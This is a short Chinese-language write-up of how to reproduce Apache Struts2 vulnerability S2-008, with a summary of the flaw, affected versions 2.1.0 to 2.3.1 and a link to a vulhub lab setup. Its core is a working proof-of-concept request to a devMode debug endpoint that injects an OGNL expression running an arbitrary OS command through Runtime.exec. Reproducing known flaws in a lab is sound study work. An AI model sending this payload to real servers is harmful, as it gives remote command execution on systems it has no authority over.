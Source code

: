 # Struts2漏洞S2-008复现

~~~~text
原理：S2-008 涉及多个漏洞，Cookie 拦截器错误配置可造成 OGNL 表达式执行，但是由于大多 Web 容器（如 Tomcat）对 Cookie 名称都有字符限制，一些关键字符无法使用使得这个点显得比较鸡肋。另一个比较鸡肋的点就是在 struts2 应用开启 devMode 模式后会有多个调试接口能够直接查看对象信息或直接执行命令，但是这种情况在生产环境中几乎不可能存在，所以还是很鸡肋。

影响版本：Struts 2.1.0 – 2.3.1
~~~~

## 漏洞搭建

~~~
https://github.com/vulhub/vulhub/tree/master/struts2/s2-008
~~~

## poc构建

例如`?debug=command&expression=<OGNL EXP>`在`devMode`mode中添加参数，OGNL表达式会直接执行，可以执行命令：

~~~~
devmode.action?debug=command&expression=(%23_memberAccess=@ognl.OgnlContext@DEFAULT_MEMBER_ACCESS)%3f(%23context[%23parameters.rpsobj[0]].getWriter().println(@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec(%23parameters.command[0]).getInputStream()))):xx.toString.json&rpsobj=com.opensymphony.xwork2.dispatcher.HttpServletResponse&content=123456789&command=id
~~~~

![image-20220330214444897](E:\学习\picture\image-20220330214444897.png)
